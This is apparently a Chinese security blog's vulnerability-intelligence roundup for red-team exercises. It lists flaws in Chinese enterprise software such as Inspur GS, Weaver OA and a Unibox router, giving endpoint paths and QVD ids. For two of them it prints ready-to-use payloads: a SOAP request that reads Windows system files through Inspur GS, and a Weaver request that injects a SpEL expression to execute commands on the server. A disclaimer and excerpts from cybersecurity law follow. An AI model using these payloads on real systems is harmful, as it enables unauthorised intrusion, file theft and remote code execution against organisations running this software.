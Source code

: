 #  HW（2025-7-4）漏洞信息收集汇总  
原创 道玄安全  道玄网安驿站   2025-07-04 15:10  
  
**“**  
 信息收集。**”**  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/L369x9IF3yPA9bic9zzTydWv4XTTHH2NAiamMp8Kxsh4s2lukPuyuwnia3NiaHkiaU8a3JGFhLvNnYvtLvHTFAd91Rw/640?wx_fmt=png&from=appmsg "")  
  
      
![](https://mmbiz.qpic.cn/sz_mmbiz_png/L369x9IF3yPMwVHx9iaPDKDhBJiajRW2DIdq0Wxe7JcpgKDia3zMfgicaaD6Auwn6Q3GGm2vI0eNh1Qic6OUhHMjE7g/640?wx_fmt=png&from=appmsg "")  
  
  
  
PS：有内网web自动化需求可以私信  
  
  
  
  
01  
  
—  
  
  
  
漏洞情报  
  
  
1.  
Unibox路由器update_byod.php SQL注入  
  
路径：/authentication/update_byod.php  
  
2.  
华天软件inforcenter PLM前台文件上传  
  
路径：/Base/BaseHandler.ashx  
  
3.  
泛微jdbc反序列化-未验证  
  
路径：  
  
/api/integration/datasource/add  
  
/api/integration/datasource/update  
  
4.  
浪潮GS任意文件读取  
  
详情：  
```
POST /cwbase/service/cepp/PurBidSupplementSrv.asmx HTTP/1.1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Cookie: GSPWebLanguageKey=zh-CN
Upgrade-Insecure-Requests: 1

<?xml version="1.0"?>
<soap:Envelope xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
<soap:Body xmlns:m="http://tempuri.org/">
<m:downLoadFile>
<m:filePath>C:\Windows\win.ini</m:filePath>
<m:offset>0</m:offset>
</m:downLoadFile>
</soap:Body>
</soap:Envelope>
```  
  
5.  
泛微remarkOperate远程命令执行  
```
POST /api/workflow/reqform/remarkOperate
{
  "operate": "save",
  "field5": "5241,5240",
  "IsBeForwardSubmitAlready": "1",
  "IsBeForwardAlready": "0",
  "IsSubmitedOpinion": "1",
  "IsBeForwardTodo": "0",
  "forwardflag": "1",
  "requestid": "5288726",
  "nodeid": "11995",
  "f_weaver_belongto_userid": "5240",
  "f_weaver_belongto_usertype": "0",
  "signworkflowids": "",
  "signdocids": "",
  "remarkLocation": "",
  "remark": "${T(java.lang.Runtime).getRuntime().exec('ping baidu.com')}",
  "remindTypes": "0,2"
}
```  
  
6.亿邮电子邮件系统远程命令执行漏洞(QVD-2025-26013)  
  
7.灵当CRM getLogInfo.php 文件上传漏洞(QVD-2025-26034)  
  
8.北京时空智友ERP系统文件上传漏洞(QVD-2025-26037)  
  
9.紫光档案管理系统任意文件读取漏洞(QVD-2025-26073)  
  
10.红帆OA MobileOAEmailAddress SQL注入漏洞(QVD-2025-26074)  
  
免责声明：  
### 本人所有文章均为技术分享，均用于防御为目的的记录，所有操作均在实验环境下进行，请勿用于其他用途，否则后果自负。  
  
第二十七条：任何个人和组织不得从事非法侵入他人网络、干扰他人网络正常功能、窃取网络数据等危害网络安全的活动；不得提供专门用于从事侵入网络、干扰网络正常功能及防护措施、窃取网络数据等危害网络安全活动的程序和工具；明知他人从事危害网络安全的活动，不得为其提供技术支持、广告推广、支付结算等帮助  
  
第十二条：  国家保护公民、法人和其他组织依法使用网络的权利，促进网络接入普及，提升网络服务水平，为社会提供安全、便利的网络服务，保障网络信息依法有序自由流动。  
  
任何个人和组织使用网络应当遵守宪法法律，遵守公共秩序，尊重社会公德，不得危害网络安全，不得利用网络从事危害国家安全、荣誉和利益，煽动颠覆国家政权、推翻社会主义制度，煽动分裂国家、破坏国家统一，宣扬恐怖主义、极端主义，宣扬民族仇恨、民族歧视，传播暴力、淫秽色情信息，编造、传播虚假信息扰乱经济秩序和社会秩序，以及侵害他人名誉、隐私、知识产权和其他合法权益等活动。  
  
第十三条：  国家支持研究开发有利于未成年人健康成长的网络产品和服务，依法惩治利用网络从事危害未成年人身心健康的活动，为未成年人提供安全、健康的网络环境。  
  
  
  
  
  
